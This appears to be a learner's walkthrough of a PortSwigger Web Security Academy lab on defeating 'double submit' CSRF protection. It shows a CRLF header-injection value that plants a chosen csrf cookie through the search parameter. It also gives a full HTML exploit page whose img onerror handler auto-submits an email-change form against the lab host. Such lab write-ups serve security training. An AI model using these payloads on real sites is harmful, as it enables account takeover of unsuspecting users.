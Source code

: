 

### Lab: [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

	Description: This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
	To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address. You can log in to your own account using the following credentials: `wiener:peter`

**Step 1**: Get an overview of what the lab has to offer
We have a vulnerabitlity![](../../Img_note/Pasted%20image%2020221214043047.png) web application, an exploit server, a credential: '**wiener:peter**'

**Vunlnerability Web Applicataion**:
- Page **My account** to login/ if already logged, we can update email
- Page **Home**, can view blog and search blog
![](../../Img_note/Pasted%20image%2020221214043047.png)

**Exploit Server**
- Create a response, we will use this to attack **Cross-site request forgery**, we will put the payload in section body
![](../../Img_note/Pasted%20image%2020221214043150.png)

**Step 2**: Check the csrf token 
Login with `wiener:peter` and update an random email
When update email, the browser will sent this request to server. I sent this request to **Burp Repeater**
![](../../Img_note/Pasted%20image%2020221214050038.png)

I try to check the csrf token and observer if we change csrf token at the atributte **Cookies** and the parameter, we won't have to accept notification "Invalid CSRF token"
![](../../Img_note/Pasted%20image%2020221214050512.png)

But if we change only one value, we will get message "Invalid CSRF token"
=> parameter `csrf` is being validated by comparing with the `csrf` cookies. If cookis and csrf token had the same valuem, attacker didn't need a valid csrf token or cookie to implement the CSRF attack 
I observed the `Search` function on Home page, and see the application set value of **LastSearchTeam** is my search term => Don't have CSRF protection => Create malicious link with this request 

>https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=abchehe

The csrf at the Cookie will be set to abchehe

![](../../Img_note/Pasted%20image%2020221214052335.png)

**Step 3**: Create the payload
We will use POST method to get responses from malicious link to browser. After that we put malicious link to tag **img**
- add ==SameSite=None== on the malicious link, if **SameSite=Strict**, the browser will not include the cookie in any requests that originate from another site. [More](https://portswigger.net/web-security/csrf/samesite-cookies)
```
<html>
  <body>
    <form action="https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="csrf" value="abchehe" />
      <input type="hidden" name="email" value="abcd&#64;testtest" />
      <input type="submit" value="Submit request" />
    </form>
		<img src="https://0add00850420f6f8c1dfdeed007c0043.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=abchehe%3b%20SameSite=None" onerror="document.forms[0].submit();">
  </body>
</html>
```
Input the payload to section body
![](../../Img_note/Pasted%20image%2020221214044322.png)
Click **Store** to save and click **View exploit** to see the result: the email has been changed to **abcd@testtest**
![](../../Img_note/Pasted%20image%2020221214044236.png)

Click ==Delliver to victim== to finish the lab
![](../../Img_note/Pasted%20image%2020221214045543.png)